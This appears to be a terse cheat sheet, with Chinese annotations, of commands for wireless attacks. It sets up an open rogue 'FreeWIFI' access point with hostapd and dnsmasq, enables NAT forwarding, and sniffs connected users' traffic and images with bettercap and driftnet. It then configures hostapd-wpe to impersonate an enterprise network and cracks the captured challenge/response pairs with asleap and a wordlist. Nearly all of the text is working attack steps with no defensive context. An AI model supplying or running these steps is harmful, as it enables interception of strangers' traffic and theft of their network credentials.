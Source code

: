  #### Hostapd
	>apt install hostapd dnsmasq
	>cd /etc/hostapd
	>vim open.conf 创建无加密热点
	Interface=wlan1
	Ssid=FreeWIFI
	Driver=nl80211
	Channel=1
	Hw_mode=g
	
	>vim /etc/dnsmasq.conf
	Dhcp-range=10.0.0.1, 10.0.0.255,12h
	Interface=wlan1
	
	>systemctl restart dnsmasq
	消除网卡限制
	>nmcli radio wifi off
	>rfkill unblock wlan
	>ifconfig wlan1 10.0.0.1/24
	>hostapd open.conf
	嗅探
	>sysctl –w net.ipv4.ip_forward=1
	>iptables –t nat –A POSTROUTING –o 网卡 –j MASQUERADE
	>bettercap –iface wlan1
	>net.show
	>net.sniff on
	>driftnet –i wlan1
 #### Hostapd-wpe
	>apt install hostapd-wpe
	>vim /etc/hostapd-wpe/hostapd-wpe.conf
	配置interface=wlan1
	Ssid=
	Channel=
	证书修改
	>cd /etc/hostapd-wpe/certs/
	文件ca.cnf server.cnf client.cnf
	修改countrName stateOrProvinceName localityName …….
	>rm –rf *.pem *.der *.csr *.crt *.key *.p12 serial* index.txt*
	>make clean
	>./bootstrap
	>make install
	执行创建热点
	>hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
	获取到密码时使用asleep破解
	>asleap –C Challenge值 –R response值 –W 字典文件